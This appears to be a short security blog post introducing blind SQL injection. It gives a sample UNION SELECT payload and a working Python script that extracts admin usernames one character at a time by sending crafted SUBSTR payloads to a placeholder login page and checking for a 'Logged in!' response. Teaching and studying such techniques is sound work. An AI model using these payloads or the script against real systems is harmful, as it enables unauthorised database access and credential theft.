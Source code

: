 ```yaml
---
layout: post
title: "Blind SQL Injection - A brief introduction"
date: 2019-10-18 +0100
categories: hacking
---
```

[SQL Injection](https://en.wikipedia.org/wiki/SQL_injection) can sometimes be as simple as `'0 UNION SELECT * FROM users;--` and suddenly you end up with a dump of the users table in a web application. But what happens when your output isn't reflected back to you? Can we still exploit the unvalidated input?

### Blind SQL Injection
Utilizing a SQL Injection where we can't get the output of the SQL Query is just as potent and dangerous, as one where the output is reflected back to the attacker.

Instead of querying directly, we find a way to get a binary result, e.g. the website could output an error if a user is not found, and none otherwise. That example could allow us to enumerate names, addresses, usernames, or even passwords.

### Leaking usernames from an `admins` table

Like every SQL Injection is unique and must be tailored to the target application, so is the case for Blind SQL Injection.

In this example we can `post` a `username` and `password` field to a website vulnerable to a SQL Injection, however, being a login page, it will only log us in and not output the result of the SQL query.

So how does the login code work in the web application? It most probably fetches a username and password from the database, and compares them with the fields from the `post`. For this example, assume that the password will not be hashed, as this would break this particular example.

```python
#!/usr/bin/python

import requests
import string
import sys

url = "http://vulnerable.com/login"

# Let's set a max on 14 characters
USER_LENGTH_MAX = 14 

def payload_pos(i):
    return "' UNION SELECT SUBSTR(username,"+str(i)+",1) FROM admins; --"


user = ""
i = 1
while i < USER_LENGTH_MAX:
    for c in string.printable:
        if c == '\n' or c == "\\" or c == "'" or c == "%":
           continue 
        sys.stdout.write('\rTrying ' + c)
        sys.stdout.flush()
        boom = {"username": payload_pos(i), 
                "password": c
                }
        res = requests.post(url, data=boom)
        if "Logged in!" in res.text:
            user = user + str(c)
            print("\nfound: {}".format(user))
            i = i + 1
            break

```

As you can see, our payload `boom` consists of the two fields `username` and `password`. We then iterate all possible printable characters in the username, and get the web application to compare the result for us. If we get logged in, then we found a matching character. 

By scripting over a simple binary output, logged in, or not logged in, we can extract arbitrary data from the database. 